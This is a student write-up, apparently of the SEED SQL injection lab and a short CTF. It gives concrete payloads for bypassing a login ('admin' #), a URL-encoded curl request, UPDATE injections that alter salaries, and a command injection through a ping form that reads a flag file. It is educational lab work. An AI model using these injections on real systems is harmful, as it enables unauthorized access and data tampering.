










# Task 1

After running the necessary commands we print all the profile information
of the employee Alice with select * from credential where Name = 'Alice':

# Task 2
## Task 2.1

In order to log into the web application as the
administrator, we enter "admin' #" in the username field without the quotes. In this case no password is needed for the login to succeed.  

The single quote ends the query earlier and the "#" symbol comments everything that comes after, including the password check, allowing us to login as administrator without even having to enter any password.

~~~~sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’"
~~~~

becomes:
~~~~sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’
~~~~

## Task 2.2

Using the command curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20%23&Password=anything' we were able to replicate the same success we had in the previous task. %20 represents space, %27 represents the single quote and %23 represents the #. The content is displayed in HTML format:

# Task 2.3 

For this task we attempt to erase Alice from the database by entering the following in the username field: admin'; delete from credential where Name = 'Alice' ; #    
But it does not work, printing out this error message: 

This attack does not work because mysqli::query, used in the PHP code, only performs a single query against the database, not allowing for more than one at a time. https://www.php.net/manual/en/mysqli.query.php

# Task 3
## Task 3.1

First, we login to our profile as Alice:

In order to change our salary we click on Edit Profile and enter the following on the nickname field: Ali', salary='100000

~~~~sql
UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;
~~~~

becomes:

~~~~sql
UPDATE credential SET
nickname=’$input_nickname’,
salary='100000',
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;
~~~~

This way, we change our salary from 20k to 100k.

## Task 3.2

To change Boby's salary to 1 from our own Edit Profile page we enter in the Nickname field: ', salary = '1' where name = 'Boby';#

As a side effect, this causes Boby's nickname to change as well, if he had one, in this case to having no nickname.

~~~~sql
UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;
~~~~

becomes 

~~~~sql
UPDATE credential SET
nickname='',
salary = '1'
where name = 'Boby';
~~~~

# CTF
## First Challenge
The first challenge is to login as admin without knowing the password. To do this we enter in the username field admin' --

By doing this we change the query from:

~~~~sql
SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
~~~~

to 

~~~~sql
SELECT username FROM user WHERE username = 'admin' -- AND password = '".$password."'";
~~~~

Because of the comment operator the password field is never checked in the sql. It is however necessary to input a password in the website, but it does not matter what we type. 

## Second Challenge

In the second challenge this method no longer works because the input field is protected and does not allow certain special characters.

We turn to the ping a host tool instead and test different inputs.    

We notice that the input www.google.com; aaaaaa
stil works in pinging google, which means the ';' character is going to be crucial.   
The next thing we try is ;echo "hi"; and it works. "Hi" is printed out by the server.

Lastly since we have control of the terminal we search for the flag finding it with the input:
; cd ../../../../../; ls; cat flag.txt

